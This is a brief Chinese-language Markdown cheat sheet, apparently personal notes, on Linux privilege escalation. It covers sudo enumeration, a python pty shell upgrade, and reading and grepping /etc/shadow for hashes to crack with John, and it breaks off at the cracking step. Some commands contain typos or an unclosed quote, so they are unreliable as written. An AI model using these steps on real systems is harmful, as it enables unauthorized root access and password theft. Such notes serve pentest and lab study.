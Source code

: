 # Linux 提权

- 查看当前用户

```
    cl
```

-  查看当前目录

```
    pwd
```

- 修改交互更好的bash环境

```
    python -c "import pty;pty.spawn('/bin/bash')"
```
    
## Sudo 提权

-  枚举

```
    sudo -l
```
    
- 提权大全

    https://gtfobins.github.io/

## 可读可写 Shadow 和 Passwd 文件利用提权

- 可读 Shadow

    1. 查看权限

		```
		ls -liah /etc/pshadow
        ```
        
		![[Pasted image 20250505181903.png]]

    2. 读取 Shadow 文件

		```
		cat /etc/shadow
		```

	3. 提取特殊用户

		```
		cat /etc/shadow | grep ':\$
		```

	4.  John 破解
